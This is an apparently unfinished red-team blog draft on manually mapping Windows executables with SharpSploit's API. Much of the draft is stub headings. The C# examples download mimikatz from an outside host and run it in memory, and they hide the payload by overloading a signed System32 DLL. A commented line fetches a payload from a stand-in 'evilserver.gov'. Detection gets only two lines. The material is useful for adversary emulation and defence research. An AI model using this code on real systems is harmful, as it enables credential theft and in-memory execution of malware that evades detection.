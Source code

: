 ```yaml
---
layout: post
title: Emulating Covert Operations - Manually Mapping Portable Executables
---
```


*TLDR: A guide to the new Manual Mapping API in SharpSploit, including a ranty discussion on the arcane art of manually mapping Windows executables (Portable Executables).*

![_config.yml]({{ site.baseurl }}/images/Manual_Map/45953a.jpg "Loaders, man...")

# Manual Mapping

Why manually map? 

## History

Started with 29A.

Many threat actors 

Also in Donut https://github.com/TheWover/donut/blob/master/loader/inmem_pe.c

Libpeconv (hasherezade): https://github.com/hasherezade/libpeconv

## Understanding the Windows Loader

Ghidra time

`Ldr*`


## Building a Minimal Loader

1) Parsing the PE Headers
2) Relocation
3) Virtualization (Alignment, Protections, Resources)
4) Import Address Resolution
5) API Set Resolution
6) Module Initialization
7) TLS Callbacks
8) Export Resolution & Invocation
9) Invoking Main
10) Passing Command Line Parameters

### Parsing the PE Headers

Check that the architecture is compatible with the current process. `PEINFO.Is32Bit`

Copy headers `PEINFO->OptHeader->SizeOfHeaders`

What other useful information can we find here?

### Relocation

All your base are belong to us

### 

# Edge Cases

Security Cookie

Nonstandard entry points (fuck you Windows)

Some runtimes use other than GetCommandLine.

## Using the Manual Mapping API in SharpSploit

```csharp

using System;
using System.Runtime.InteropServices;

namespace MapTest
{
    class Program
    {
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate int MessageBox(IntPtr hWnd, String text, String caption, int options);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate int TestFunc();

        static void Main(string[] args)
        {
            //Test DLL project can be found at: https://github.com/FuzzySecurity/DLL-Template

            Console.WriteLine("[+] Mapping Test DLL from disk into memory!");

            Console.WriteLine("\t[+] Calling Test DLL from memory by DLLMain...\n");
            // (1) Call test DLL by DLLMain
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModule(ManMapTest.PEINFO, ManMapTest.ModuleBase);

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (2) Call test DLL by export (Also calls DllMain as part of init)
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest2 = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            object[] FunctionArgs = { };
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest2.PEINFO, ManMapTest2.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping Test DLL from byte array and calling export!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (3) Map test DLL using byte array. Call by export like above.
            byte[] bytes = System.IO.File.ReadAllBytes(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest3 = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(bytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest3.PEINFO, ManMapTest3.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping and calling Mimikatz from memory (via download from URL)!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Mimikatz EXE from memory!\n");

            // (4) Mimikatz x64
            byte[] katzBytes = new System.Net.WebClient().DownloadData(@"http://192.168.123.227:8000/mimikatz.exe");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapKatz = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(katzBytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedPEModule(ManMapKatz.PEINFO, ManMapKatz.ModuleBase);

            Console.ReadLine();
        }
    }
}     

```
[Manual_Map1.png]

[Manual_Map2.png]

[Manual_Map4.png]

## Module Overloading

Basically the same as Phantom DLL Hollowing and Module Stomping. We (hasherezade ) 


```csharp

using System;
using System.IO;

namespace MapTest
{
    class Program
    {

        static void Main(string[] args)
        {

            string payload = @"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\mimikatz.exe";

            // Map a module to a file
            string decoyPath = @"C:\Windows\System32\user32.dll";

            byte[] payloadBytes = File.ReadAllBytes(payload);

            //Optionally, download the payload from a server into a byte array
            //byte[] payloadBytes = new System.Net.WebClient().DownloadData("http://evilserver.gov/kittenz.cute");

            //Overload, using specific decoy file
            SharpSploit.Execution.PE.PE_MANUAL_MAP metadata = SharpSploit.Execution.DynamicInvoke.Generic.OverloadModule(decoyPath, payloadBytes);

            //Overload, using randomly chosen decoy file
            //SharpSploit.Execution.PE.PE_MANUAL_MAP metadata = SharpSploit.Execution.DynamicInvoke.Generic.OverloadModule(payloadBytes);

            Console.WriteLine("[+] Module Address: " + metadata.ModuleBase);
            Console.WriteLine("[+] Module Name: " + metadata.ModuleName); //nothing when a module is loaded from memory
            Console.WriteLine("[+] Module Backing File: " + metadata.MemoryBackingFileName);

            Console.WriteLine("Hold fire!");
            Console.ReadLine();
            Console.WriteLine("Firing!");

            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedPEModule(metadata.PEINFO, metadata.ModuleBase);

            //==========================================================[Sleep]
            while (true)
            {
                System.Threading.Thread.Sleep(10000);
            }
        }
    }
}

```

The fact that you have the same module module twice is suspicious. When you choose to overload a random module, it picks one that is not already loaded, is validly signed, and is in System32/SysWOW64.
[ModuleOverloading.png]

# Detection

Module loads

Memory scanning
